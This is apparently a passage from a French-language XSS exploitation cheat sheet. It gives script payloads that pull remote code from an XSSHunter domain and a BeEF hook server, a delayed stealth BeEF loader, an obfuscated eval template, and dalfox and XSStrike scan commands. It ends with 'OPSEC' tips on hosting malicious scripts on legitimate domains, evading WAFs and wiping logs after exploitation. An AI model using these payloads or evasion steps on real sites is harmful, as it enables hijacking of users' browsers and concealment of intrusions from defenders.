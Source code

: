 ## 🔧 Outils d'Exploitation

### XSSHunter
```javascript
// Payload XSSHunter
<script src="https://yourid.xss.ht"></script>

// Ou avec obfuscation
<script>eval(String.fromCharCode(/* payload encodé */))</script>
```

### BeEF (Browser Exploitation Framework)
```javascript
// Hook BeEF
<script src="http://beef-server:3000/hook.js"></script>

// Hook discret
<script>
function loadBeef() {
  var s = document.createElement('script');
  s.src = 'http://beef-server:3000/hook.js';
  document.head.appendChild(s);
}
setTimeout(loadBeef, 1000);
</script>
```

### Tests automatisés
```bash
# XSS avec Burp Suite
# 1. Capturer la requête
# 2. Envoyer à Intruder
# 3. Utiliser des payloads XSS
# 4. Analyser les réponses

# Avec dalfox
dalfox url http://target.com/search?q=FUZZ

# Avec XSStrike
python3 xsstrike.py -u "http://target.com/search?q="
```

## 🛡️ Conseils OPSEC
- Utiliser des payloads discrets (pas d'alert() en production)
- Héberger les scripts malveillants sur des domaines légitimes si possible
- Fragmenter les payloads pour éviter la détection WAF
- Utiliser HTTPS pour les exfiltrations pour éviter l'interception
- Nettoyer les traces après exploitation (logs, historique)

## ⚠️ Erreurs fréquentes
- Utiliser seulement alert() pour tester (détectable et limité)
- Oublier de tester tous les points d'injection (headers, cookies, paramètres cachés)
- Ne pas adapter le payload au contexte (HTML vs JavaScript vs attribut)
- Ignorer les XSS DOM-based (plus complexes mais très répandues)
- Lancer des payloads trop agressifs qui saturent les logs
